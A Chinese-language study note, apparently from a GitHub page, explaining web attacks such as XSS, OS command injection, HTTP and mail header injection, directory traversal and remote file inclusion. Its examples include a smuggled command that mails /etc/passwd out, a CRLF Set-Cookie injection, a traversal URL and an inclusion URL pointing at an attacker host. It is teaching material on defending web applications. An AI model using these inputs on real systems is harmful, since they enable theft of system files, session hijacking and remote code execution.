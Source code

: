 动态创建的HTML部分有可能隐藏着安全漏洞。

**危害：**
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的Cookie值，被害人在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

**对策：**
- 禁止跨站操作。
- 在Cookie添加`httponly`属性，不允许js操作。

## OS命令注入攻击
OS命令注入攻击（OS Command Injection）是指通过Web应用，执行非法的操作系统命令达到攻击的目的。

只要在能调用Shell函数的地方就存在被攻击的风险。

> 例如：发邮件，程序后台通过调用sendmail命令发送邮件。<br>
> open(MAIL, "/usr/sbin/sendmail $adr")<br>
> 将$adr填写为<br>
> ; cat /etc/passwd | mail test@example.com<br>
> 这将窃取系统文件内容，发送到指定邮箱<br>

## HTTP首部注入攻击
HTTP首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的攻击。

**危害：**
- 设置任何Cookie信息。
- 重定向至任意URL。
- 显示任意的主体（HTTP响应截断攻击）。

> 例如：修改首部<br>
> 从  Location:http://example.com/?cat=101<br>
> 改为Location:http://example.com/?cat=101%0D%0ASet-Cookied:+SID=123456<br>
> 其中`%0D%0A`代表HTTP报文中的换行符，这可将会话ID设置成SID=123456的Set-Cookie首部字段<br>
> 如使用2个换行`%0D%0A%0D%0A`，可作HTTP首部与主体所需的空行，可在后面伪造主体。这称作HTTP响应截断攻击。

## 邮件首部攻击
通过在邮件地址处，添加`%0D%0A`，在邮件报文中代表换行符。之后可追加发送人，也可追加消息。

## 目录遍历攻击
目录遍历攻击（Directory Traversal）是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。

> 例如：修改url <br>
> 原本从/www/log/文件目录下读取指定的文件，被修改 <br>
> 从 http://example.com/read.php?log=test.log <br>
> 改 http://example.com/read.php?log=../../etc/passwd

## 远程文件包含漏洞
远程文件包含漏洞是指当部分脚本内容需要从其它文件读入时，攻击者利用指定外部服务器的url充当依赖文件。
> 例如：修改url <br>
> 从 http://example.com/foo.php?mod=news.php <br>
> 改 http://example.com/foo.php?mod=http://hackr.com/cmd.php
